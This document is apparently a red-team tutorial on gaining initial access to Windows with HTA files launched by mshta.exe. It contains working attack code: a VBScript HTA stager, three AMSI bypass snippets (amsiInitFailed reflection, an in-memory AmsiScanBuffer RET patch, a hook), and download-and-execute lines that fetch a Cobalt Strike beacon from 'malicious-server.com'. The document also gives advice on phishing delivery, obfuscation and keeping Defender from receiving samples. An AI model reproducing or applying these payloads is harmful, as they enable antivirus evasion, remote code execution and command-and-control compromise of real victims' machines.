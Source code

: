 # Gaining initial access with HTA
Instruction on gaining initial access using mshta.exe to execute HTA files

## 1. 📚 Overview
**Basic HTA Payload**
```html
<html>
  <head><title>Pwned by zagnox</title></head>
  <body>
  <p>Hello World!</p>
  </body>

  <script language="VBScript">
    Set shell = CreateObject("wscript.Shell")
    shell.run "notepad.exe"
  </script>
</html>
```
The payload above will run benign programs such as notepad or calc. If the operator attempts to drop and execute a beacon, it will most likely get **snagged by Windows Defender or other AV solutions**.

Although HTA attacks have been around for a while they are still a solid **STAGING** mechanism. In this technique I will explain the steps on how to use HTA files as simple stagers to load scripts from remote servers, patch/crash AMSI (Anti-Malware Scan Interfrace) to evade detection and then execute a web scripted delivery by Cobalt Strike to spawn a beacon.

1. Operator delivers the HTA application via email
2. Victim clicks on the application
3. VBScript runs and pulls malicious AMSI patch from remote server
4. Script launches hidden powershell and patches AMSI
5. Patched AMSI powershell session executes Cobalt-Strike beacon from remote server
6. Establish C2 communication with teamserver

---

## 2. 🍳 Crafting AMSI patching script
The operator has a couple of options to kill AMSI. The laziest option is to generate the script from [amsi.fail](https://amsi.fail/) collection. This script generator uses random trechniques from a collection of scripts. Although amsi.fail generates unique signatues at runtime for each payload they are sometimes snagged by AV. Test the payload in your lab to make sure you are successfully pathcing AMSI before serving it to your target.

⚠️ NOTE: It is important to **DISABLE Automatic Sample Submission** while experimenting in you lab. You DO NOT WANT your scripts to be sent to Microsoft sandboxes for further analysis.

The other options to patch AMSI are shown below. The powershell snippets can be tweaked and modified in order to execute and kill AMSI. Remember to use obfuscation techniques to evade defender for the scripts below.
- **Memory Patching (In-Memory AMSI Bypass)**

  By default, AmsiScanBuffer returns a status indicating whether a scan was successful. By forcing it to return AMSI_RESULT_CLEAN, all scripts will be marked as safe.
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') |
  Get-Field -BindingFlags NonPublic,Static -Name 'amsiInitFailed' |
  Set-Value $true
  ```

- **Overwrite AmsiScanBuffer**

  Overwrite AmsiScanBuffer in memory so it always returns 0 (clean).
  ```powershell
  using System;
  using System.Runtime.InteropServices;
  
  class Program
  {
      [DllImport("kernel32")]
      static extern IntPtr GetModuleHandle(string lpModuleName);
  
      [DllImport("kernel32")]
      static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
  
      [DllImport("kernel32")]
      static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);
  
      static void Main()
      {
          IntPtr amsiDll = GetModuleHandle("amsi.dll");
          IntPtr amsiScanBuffer = GetProcAddress(amsiDll, "AmsiScanBuffer");
          
          uint oldProtect;
          VirtualProtect(amsiScanBuffer, 0x0010, 0x40, out oldProtect);
          
          // Patch AmsiScanBuffer to return AMSI_RESULT_CLEAN (0)
          Marshal.WriteByte(amsiScanBuffer, 0xC3); // RET instruction
          
          VirtualProtect(amsiScanBuffer, 0x0010, oldProtect, out oldProtect);
      }
  }
  
- **Hooking AMSI API Calls**

  Instead of patching AMSI in memory, you can hook AmsiScanBuffer and return a clean result.

  ```powershell
  $memory = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(1)
  [System.Runtime.InteropServices.Marshal]::WriteByte($memory, 0xC3) # RET instruction
  [System.Runtime.InteropServices.Marshal]::Copy($memory, 0, [System.Runtime.InteropServices.Marshal]::GetFunctionPointerForDelegate(
    [System.Delegate]::CreateDelegate([System.Func[IntPtr, IntPtr, uint, uint]], $memory)), 1)

  ```


A fairly simple way to chain the commands is to embed the Cobalt Strike web-scripted delivery to execute after the script has been executed:
```powershell
[sYStEm.tEXt.enCOdIng]::unICOdE.GetsTrIng([SystEm.conVERT]::fRoMBaSe64string("base64 encode script here")) | IEX; IEX (curl 'http://malicious-server.com/beacon')
```

## 3. ☣️ Weaponizing the HTA

Once you have a script that will patch AMSI it is time to weaponize the HTA payload:

```html
<html>
  <head><title>BE CREATIVE</title></head>
  <body>
  <p>Hi! This is an important notification!</p>
  </body>

  <script language="VBScript">
    Set shell = CreateObject("wscript.Shell")
    shell.run "powershell -nop -w -hidden -e <base64 this IEX (curl http://malicious-server.com/patch-amsi.ps1)>"
  </script>
</html>
```
## 

![Patching amsi and executing beacon. AV evaded](https://github.com/user-attachments/assets/e66b2048-0a56-4bdc-ad4d-b434f880fb1f)
